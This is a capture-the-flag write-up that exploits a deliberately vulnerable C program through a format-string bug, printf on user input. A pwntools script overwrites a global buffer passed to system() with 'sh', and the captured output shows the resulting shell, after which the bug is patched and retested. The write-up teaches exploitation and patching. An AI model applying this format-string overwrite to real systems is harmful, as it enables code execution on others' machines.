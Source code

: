 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char buf0[100];

int main()
{
  char buf1[200];

  printf("Do you really want to escape, the celebration is nearing.\n");
  fgets(buf1, sizeof(buf1), stdin);

  strcpy(buf0, "ls -asl");
  printf(buf1);

  printf("Here look at all of the wonderful things you have to research.\n");
  system(buf0);
}
```

So we see here, that the exploit to this seems fairly sstraight forward. Just use the printf vulnearbillity to overwrite the value of buf0 with "sh" and we have a shell. However this time, we will be going about doing it using pwntools. Pwntools is a python library designed exclusively for solving ctf challenges, and it does make your life a whole lot easier.  For instance...

For packing hex strings in little endian for 32 bit and 64 bit, pwntools can handle that

```
>>> p32(0xdeadbeef)
'\xef\xbe\xad\xde'
```

It can also pack strings, and other things as integers

```
>>> u32("escp")
1885565797
```

It can pull addresses for symbols from programs just like object dump

```
>>> from pwn import *
>>> elf = ELF("f5")
[*] '/Hackery/escape/fmt_str/f5/f5'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
>>> context(binary=elf)
>>> print hex(elf.symbols["main"])
0x80484ab
```

These are only a couple of the conviniet things pwn tools can do.


The first thing we will need to do is find where our input is on the stack.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f5$ python -c 'print "0000" + "%x."*20' | ./f5
Do you really want to escape, the celebration is nearing.
0000c8.f7fb45a0.f7ffdc08.0.0.30303030.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.
Here look at all of the wonderful things you have to research.
total 32
4 drwxr-xr-x  2 root root 4096 Feb 26 19:09 .
4 drwxr-xr-x 10 root root 4096 Feb 26 13:46 ..
4 -rw-r--r--  1 root root  517 Feb 26 19:06 exploit.py
8 -rwxr-xr-x  1 root root 5504 Feb 26 18:40 f5
4 -rw-r--r--  1 root root  352 Feb 26 18:45 f5.c
4 -rw-------  1 root root    6 Feb 26 18:00 .gdb_history
4 -rw-r--r--  1 root root  109 Feb 26 19:09 out
```

So we can see that our input is stored 6 stack values away. So that is pretty much all we need, other than the name of the buffer we are going to overwrite. pwntools will handle the rest for us. One thing I would like to point out, the reason why the string in the u32 has "\0\0" in it is because u32 needs a 4 byte string to work with, and since sh is only two we can fill it with two null bytes.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f5$ cat exploit.py 
#Import pwntools
from pwn import *

#Specify what elf they should pull symbols for
elf = ELF("f5")
context(binary=elf)

#Start the challenge as a process pwntools can interface with
target = process("./f5")


#Create the payload using the location of the input, address of buf0, and sh packed in hex form.
payload = fmtstr_payload(6, {elf.symbols["buf0"]: u32("sh\0\0")})
print payload

#Send the payload
target.sendline(payload)

#Drop to an interactive shell so we can use the shell we created
target.interactive()
```

Now let's try it

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f5$ python exploit.py 
[*] '/Hackery/escape/fmt_str/f5/f5'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
[+] Starting local process './f5': Done
\x80\x98\x0\x81\x98\x0\x82\x98\x0\x83\x98\x0%99c%6$hhn%245c%7$hhn%152c%8$hhn%9$hhn
[*] Switching to interactive mode
Do you really want to escape, the celebration is nearing.
\x80\x98\x0\x81\x98\x0\x82\x98\x0\x83\x98\x0                                                                                                  �                                                                                                                                                                                                                                                    \xa0                                                                                                                                                      
Here look at all of the wonderful things you have to research.
$ cat out
Fine, while your busy running away I will start welcoming people. To the celebration. For you. Level Cleared
$ ls
exploit.py  f5    f5.c  out
$ echo It works!
It works!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './f5' stopped with exit code 0
[*] Got EOF while sending in interactive
```

Just like that, we pwned the binary. Now let's patch it.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char buf0[100];

int main()
{
  char buf1[200];

  printf("Do you really want to escape, the celebration is nearing.\n");
  fgets(buf1, sizeof(buf1), stdin);

  strcpy(buf0, "ls -asl");
  printf("%s\n", buf1);

  printf("Here look at all of the wonderful things you have to research.\n");
  system(buf0);
}
```

So the exploit should no longer work, since we are now printing out user defined data fomratted as a string, so an attacker shouldn't be able to use special flags. Let's test it.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f5$ ./f5_secure 
Do you really want to escape, the celebration is nearing.
%x
%x

Here look at all of the wonderful things you have to research.
total 44
4 drwxr-xr-x  2 root root 4096 Feb 26 19:13 .
4 drwxr-xr-x 10 root root 4096 Feb 26 13:46 ..
4 -rw-r--r--  1 root root  517 Feb 26 19:06 exploit.py
8 -rwxr-xr-x  1 root root 5504 Feb 26 18:40 f5
4 -rw-r--r--  1 root root  352 Feb 26 18:45 f5.c
8 -rwxr-xr-x  1 root root 7476 Feb 26 19:13 f5_secure
4 -rw-r--r--  1 root root  360 Feb 26 19:12 f5_secure.c
4 -rw-------  1 root root    6 Feb 26 18:00 .gdb_history
4 -rw-r--r--  1 root root  109 Feb 26 19:09 out
```

Just like that, we patched the binary.
